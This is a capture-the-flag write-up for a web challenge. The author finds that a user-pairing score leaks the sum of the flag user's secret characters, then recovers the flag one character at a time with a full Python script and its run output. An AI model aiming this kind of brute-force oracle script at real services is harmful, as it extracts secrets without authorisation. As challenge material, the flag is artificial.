

> This challenge was solved by `thehackerscrew` and was not solved by me, I post-solved it on my own with some information from there channels during the CTF!

This is a sourceless web, I start by visiting the application:


I start by registering a user `sealldev` with the secret `test`:
```
Successfully registered sealldev
```

I then do a 'Look up specific pairing' on myself:
```
The pairing for sealldev and sealldev is: 0
```

I then do that for the 'flag' user:
```
The pairing for sealldev and flag is: 2006
```

Interesting, I then do a 'Check your top matches' on myself:
```
sealldev x sealldev: 0
hello2 x sealldev: 194
hello x sealldev: 194
ab x sealldev: 259
cb x sealldev: 261
nianphi1A x sealldev: 324
nianphi1B x sealldev: 325
nianphi1C x sealldev: 326
nianphi1D x sealldev: 327
nianphi1E x sealldev: 328
...
```

And on flag:
```
flag x flag: 0
az6_5597 x flag: 207
az6_5586 x flag: 207
az6_5587 x flag: 207
az6_5588 x flag: 207
az6_5589 x flag: 207
az6_5590 x flag: 207
az6_5591 x flag: 207
...
```

### Initial Observations

Exploring the application, we can do a few things:
- Register a user with a username and a 'secret' (which is transmitted as a password)
- Find the similarity pairing between 2 users secret's
- The top matches doesn't seem super useful, as it assumes we know other peoples secrets.

### Sums

I assume the secret of the flag user contains the flag, so I start by trying to make my secret `utflag{` and checking the similarity:
```
The pairing for idwioanowanfo and flag is: 1620
```

We've gone down, closer to 0 which means were closer! So if we make a user with the secret `utflag`:
```
The pairing for adioaofw and flag is: 1743
```

So, the difference is 123, which is the decimal code for:
```python
>>> chr(123)
'{'
```
The next character!

So this number is the **sum** of all of the remaining characters.

So could we:
1. Make a user starting with `utflag{`
2. Repeatedly try users with the next character (`a-Z0-9_}` character set) and see what drops the score the lowest.
3. Repeat for each character?

### Scripting

This is the script that I used to get the flag:
```python
import requests
import time
import string
import random
import os
import json
import sys
import re

# Configuration
url = "http://challenge.utctf.live:3725/index.php"
VALID_CHARS = string.ascii_letters + string.digits + "_" + "{}"
SAVE_FILE = "flag_progress.json"

def generate_username():
    return ''.join(random.choice(string.ascii_lowercase + string.digits + "_") for _ in range(random.randint(5, 12)))

def print_progress_bar(iteration, total, prefix='', suffix='', length=50):
    percent = f"{100 * (iteration / float(total)):.1f}"
    filled_length = int(length * iteration // total)
    bar = '█' * filled_length + '-' * (length - filled_length)
    sys.stdout.write(f'\r{prefix} |{bar}| {percent}% {suffix}')
    sys.stdout.flush()
    if iteration == total:
        print()

def register_user(username, password, max_retries=10):
    if not (all(c in VALID_CHARS for c in username + password) and 
            1 <= len(username) <= 16 and 1 <= len(password) <= 32):
        return False
    
    data = {"username": username, "password": password}
    
    for _ in range(max_retries):
        try:
            response = requests.post(url, data=data)
            if "Successfully registered" in response.text:
                return True
            elif "already taken" in response.text:
                data["username"] = generate_username()
            time.sleep(1)
        except:
            time.sleep(1)
    
    return False

def check_pairing(username1, username2, max_retries=10):
    data = {"username1": username1, "username2": username2}
    
    for _ in range(max_retries):
        try:
            response = requests.post(url, data=data)
            match = re.search(r'The pairing for .* and .* is: (\d+)', response.text)
            if match:
                return int(match.group(1))
            time.sleep(1)
        except:
            time.sleep(1)
    
    return None

def save_progress(current_flag):
    try:
        with open(SAVE_FILE, 'w') as f:
            json.dump({"flag": current_flag, "timestamp": time.time()}, f)
        print(f"Progress saved: {current_flag}")
    except Exception as e:
        print(f"Error saving progress: {e}")

def load_progress():
    if os.path.exists(SAVE_FILE):
        try:
            with open(SAVE_FILE, 'r') as f:
                data = json.load(f)
                print(f"Loaded saved progress from {time.ctime(data['timestamp'])}")
                return data["flag"]
        except Exception as e:
            print(f"Error loading progress: {e}")
    return None

def try_next_char(current_flag):
    chars = string.ascii_lowercase + string.digits + "_}" + string.ascii_uppercase
    lowest_sum = None
    best_flag = current_flag
    
    print(f"\nSearching for character at position {len(current_flag)}...")
    
    for i, char in enumerate(chars):
        test_flag = current_flag + char
        test_username = generate_username()
        
        print_progress_bar(i+1, len(chars), prefix=f"Testing '{char}'", suffix=f"{i+1}/{len(chars)}")
        
        if register_user(test_username, test_flag, max_retries=3):
            sum_value = check_pairing(test_username, "flag", max_retries=3)
            
            if sum_value is not None:
                if sum_value == 0:
                    print(f"\nFound complete flag: {test_flag}")
                    save_progress(test_flag)
                    return test_flag, True
                
                if lowest_sum is None or sum_value < lowest_sum:
                    lowest_sum = sum_value
                    best_flag = test_flag
                    
        time.sleep(0.3)
    
    if best_flag != current_flag:
        print(f"\n✓ Best character for position {len(current_flag)}: '{best_flag[-1]}' (sum: {lowest_sum})")
        save_progress(best_flag)
        return best_flag, False
    else:
        print("\n⚠️ Couldn't find any valid next character")
        return current_flag, False

def extract_flag():
    current_flag = load_progress() or "utflag{"
    print(f"Starting with: {current_flag}")
    
    username = generate_username()
    for _ in range(5):
        if register_user(username, current_flag):
            break
        username = generate_username()
    else:
        print("Failed to register initial user after multiple attempts")
        return None
    
    current_sum = check_pairing(username, "flag")
    if current_sum is None:
        print("Failed to get initial sum")
        return None
    
    print(f"Initial sum: {current_sum}")
    
    if current_sum == 0:
        print("Flag is already complete!")
        return current_flag
    
    try:
        while True:
            updated_flag, completed = try_next_char(current_flag)
            
            if completed or updated_flag == current_flag:
                return updated_flag
            
            current_flag = updated_flag
            
            username = generate_username()
            if register_user(username, current_flag):
                current_sum = check_pairing(username, "flag")
                print(f"Current flag: {current_flag}")
                print(f"Current sum: {current_sum}")
                
                if current_sum == 0:
                    print("🎉 Found the complete flag!")
                    save_progress(current_flag)
                    return current_flag
            else:
                print("Failed to register user with updated flag")
                break
            
            if len(current_flag) > 30:
                print("Flag is getting unusually long. Stopping for safety.")
                break
    
    except KeyboardInterrupt:
        print("\n⚠️ Script interrupted by user")
        print(f"Progress saved at: {current_flag}")
        return current_flag
    
    return current_flag

if __name__ == "__main__":
    print("🚀 Starting flag extraction...")
    flag = extract_flag()
    if flag:
        print(f"\n🏁 Extracted flag: {flag}")
    else:
        print("\n❌ Failed to extract the flag.")
```

I made this script have progress saving to work with the occasionally unstable infrastructure, but after a long time:
```
🚀 Starting flag extraction...
Loaded saved progress from Sun Mar 16 14:52:11 2025
Starting with: utflag{
Registering initial user...
Initial sum: 1620

Searching for character at position 7...
Testing character 'O' |██████████████████████████████████████████████████| 100.0% 64/64
...

Searching for character at position 25...
Testing character '}' |█████████████████████████████---------------------| 59.4% 38/64
Found complete flag: utflag{On3_sT3P_4t_4_t1m3}
Progress saved: utflag{On3_sT3P_4t_4_t1m3}

🏁 Extracted flag: utflag{On3_sT3P_4t_4_t1m3}
```

Flag: `utflag{On3_sT3P_4t_4_t1m3}`